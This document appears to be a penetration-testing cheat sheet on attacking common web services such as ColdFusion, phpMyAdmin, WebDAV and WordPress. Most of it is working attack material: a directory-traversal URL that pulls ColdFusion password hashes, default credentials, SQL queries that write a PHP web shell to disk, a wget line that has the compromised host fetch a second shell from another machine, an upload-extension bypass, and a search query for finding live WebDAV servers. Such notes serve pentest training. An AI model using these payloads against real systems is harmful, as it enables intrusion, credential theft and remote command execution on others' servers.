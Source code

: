 # Common Web-services

This is a list of some common web-services. The list is alphabetical.

## Cold Fusion

If you have found a cold fusion you are almost certainly struck gold. [http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

### Determine version

example.com/CFIDE/adminapi/base.cfc?wsdl It will say something like:

```text
<!--WSDL created by ColdFusion version 8,0,0,176276-->
```

### Version 8

#### FCKEDITOR

This works for version 8.0.1. So make sure to check the exact version.

```text
use exploit/windows/http/coldfusion_fckeditor
```

#### LFI

This will output the hash of the password.

```text
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

You can pass the hash.

[https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/](https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/)

[http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)

neo-security.xml and password.properties

## Drupal

## Elastix

Full of vulnerabilities. The old versions at least.

[http://example.com/vtigercrm/](http://example.com/vtigercrm/) default login is `admin:admin`

You might be able to upload shell in profile-photo.

## Joomla

## Phpmyadmin

Default credentials

```text
root <blank>
pma <blank>
```

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:

```text
http://192.168.1.101/phpmyadmin/
```

Then click on SQL.

```text
Run SQL query/queries on server "localhost":
```

From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:

```text
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell. We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

### Download a better shell

On linux-machines we can use wget to download a more powerful shell.

```text
?cmd=wget%20192.168.1.102/shell.php
```

On windows-machines we can use tftp.

## Webdav

Okay so webdav is old as hell, and not used very often. It is pretty much like ftp. But you go through http to access it. So if you have webdav installed on a xamp-server you can access it like this:

```text
cadaver 192.168.1.101/webdav
```

Then sign in with username and password. The default username and passwords on xamp are:

Username: **wampp**

Password: **xampp**

Then use **put** and **get** to upload and download. With this you can of course upload a shell that gives you better access.

If you are looking for live examples just google this:

```text
inurl:webdav site:com
```

Test if it is possible to upload and execute files with webdav.

```text
davtest -url http://192.168.1.101 -directory demo_dir -rand aaaa_upfileP0C
```

If you managed to gain access but is unable to execute code there is a workaround for that! So if webdav has prohibited the user to upload .asp code, and pl and whatever, we can do this:

upload a file called shell443.txt, which of course is you .asp shell. And then you rename it to **shell443.asp;.jpg**. Now you visit the page in the browser and the asp code will run and return your shell.

### References

[http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf](http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf)

## Webmin

Webmin is a webgui to interact with the machine.

The password to enter is the same as the passsword for the root user, and other users if they have that right. There are several vulnerabilites for it. It is run on port 10000.

## Wordpress

```text
sudo wpscan -u http://cybear32c.lab
```

If you hit a 403. That is, the request if forbidden for some reason. Read more here: [https://en.wikipedia.org/wiki/HTTP\_403](https://en.wikipedia.org/wiki/HTTP_403)

It could mean that the server is suspicious because you don't have a proper user-agent in your request, in wpscan you can solve this by inserting --random-agent. You can of course also define a specific agent if you want that. But random-agent is pretty convenient.

```text
sudo wpscan -u http://cybear32c.lab/ --random-agent
```

### Disable https checks

```text
wpscan –url https://192.168.117.136:12380/blogblog/ –disable-tls-checks
```

### Scan for users

You can use wpscan to enumerat users:

```text
ruby wpscan.rb --url http://yourwebsite.com --enumerate u
```

### Others options

```text
wpscan --url http://yourwebsite.com --enumerate [p/vp/ap/t/vt/at]
--> p for plugins
--> t for themes
--> v for vulnerable
--> a for all
```

